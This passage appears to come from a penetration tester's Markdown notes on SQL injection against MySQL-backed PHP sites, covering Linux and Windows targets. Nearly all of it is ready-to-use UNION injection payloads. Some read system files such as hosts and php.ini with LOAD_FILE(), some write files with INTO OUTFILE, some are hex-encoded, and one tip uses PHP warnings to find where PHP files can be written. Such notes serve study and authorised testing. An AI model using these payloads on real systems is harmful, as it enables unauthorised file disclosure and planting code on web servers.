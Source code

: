 - When you execute the `LOAD_FILE()` function. Keep an eye out the php warning syntax messages. It'll provide you the absolute path to write php files.

```sql
' UNION SELECT 'test', NULL INTO OUTFILE '/tmp/file.txt'#

' UNION SELECT 1, LOAD_FILE('/tmp/file.txt')#

' UNION SELECT 'test', NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

**Hex encoded**

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

`<insert screenshot any of the OS enumeration from above>`

#### 2.2.3.2 - Windows

- Using SQL Query statements will disclose the PHP warning messages to find the absolute path of the web root directory.

TODO: Test these queries in XAMPP

```sql
' UNION SELECT 1, LOAD_FILE('c:\\xampp\\php\\php.ini')#

' UNION SELECT LOAD_FILE('c:\\xampp\\php\\php.ini'), 1#

' UNION SELECT LOAD_FILE('c:/WINDOWS/system32/drivers/etc/hosts'), NULL#

' UNION SELECT NULL, LOAD_FILE('c:/WINDOWS/system32/drivers/etc/hosts')#
```

- When you execute the `LOAD_FILE()` function. Keep an eye out the php warning syntax messages. It'll provide you the absolute path to write php files.

```sql
' UNION SELECT 'test', NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#

' UNION SELECT 'test', NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```

**Hex encoded**

```sql
' UNION SELECT 0x74657374, NULL INTO OUTFILE 'C:\\Windows\\Temp\\file.txt'#

' UNION SELECT 1, LOAD_FILE('C:\\Windows\\Temp\\file.txt')#
```
